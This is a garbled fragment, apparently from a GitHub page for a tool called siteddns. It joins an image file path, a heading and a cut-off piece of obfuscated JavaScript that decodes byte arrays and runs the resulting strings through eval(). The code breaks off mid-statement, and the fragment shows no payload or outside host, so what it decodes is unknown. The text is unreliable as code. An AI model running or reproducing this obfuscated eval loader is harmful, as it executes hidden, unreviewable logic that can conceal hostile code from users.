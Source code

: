  # siteddns
>2);ln++;}";eval(ln);ln="for(ln=49;ln>=3;ln--){jn[ln]=(jn[ln]-jn[ln-1])&0xff;jn[ln]=(-jn[ln])&0xff;}";eval(ln);kn="";for(ln=1;ln
